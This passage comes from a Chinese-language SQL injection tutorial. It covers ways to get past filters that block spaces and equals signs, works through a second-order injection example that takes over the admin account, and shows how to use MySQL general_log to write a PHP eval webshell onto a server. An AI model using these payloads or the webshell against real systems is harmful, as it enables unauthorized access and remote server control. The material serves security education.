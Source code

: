 ### 9.8 空格过滤绕过

过滤代码：`preg_match('/(and|or|union|where|limit|group by|select|\'|hex|unhex|substr|\s)/i', $id)`

绕过：注释符代替空格

### 9.9 等号过滤绕过

过滤代码：`preg_match('/(and|or|union|where|limit|group by|select|\'|hex|unhex|substr|\s| =)/i', $id)`

绕过：利用 `like、rlike、regexp、!(username<>"admin")(table_name<>'ffll44jj')` 代替等号

### 9.10 其它类型的绕过

- 双写绕过
- 双重编码绕过



## 10、二次注入

### 10.1 原理

<img src="https://s1.vika.cn/space/2023/04/01/40584478ee424d90ba5ab7af6fd7d99e" style="zoom:80%;" />

### 10.2 实例

```sql
--注册账号，输入我们的账号密码，账号设置成admin'#,密码随意，admin'#被存进数据库
--当我们修改admin'#的密码时执行的sql语句是
update users set password='$new_pass' where username='admin'# and password='$old_pass';
--这时候 and 条件被注释掉，我们随意输入密码就达到了，修改admin账户密码的目的
```

## 11、SQL 注入命令执行

### 11.1 SQL 注入写文件

通过 SQL 注入，直接写入 webshell 文件到服务器，通过 GET 方法或者 POST 方法提交并执行外部指令，为后续进一步远程控制，提权，创造条件。

{{< admonition>}}

需要 mysql 用户在写入文件夹下有写入权限，即 `secure_file_priv` 为不为空

- 在 MySQL 5.5.3 之前 `secure_file_priv` 默认是空，这个情况下可以向任意绝对路径写文件
- 在 MySQL 5.5.3 之后 `secure_file_priv` 默认是 NULL，这个情况下不可以写文件

{{< /admonition >}}

当`secure_file_priv` 不为空时，可以使用 general_log 写文件：

```sql
set global general_log = on;
set global general_log_file = 'D:/webshell.php';
select '<?php eval($_POST['key']) ?>';
```
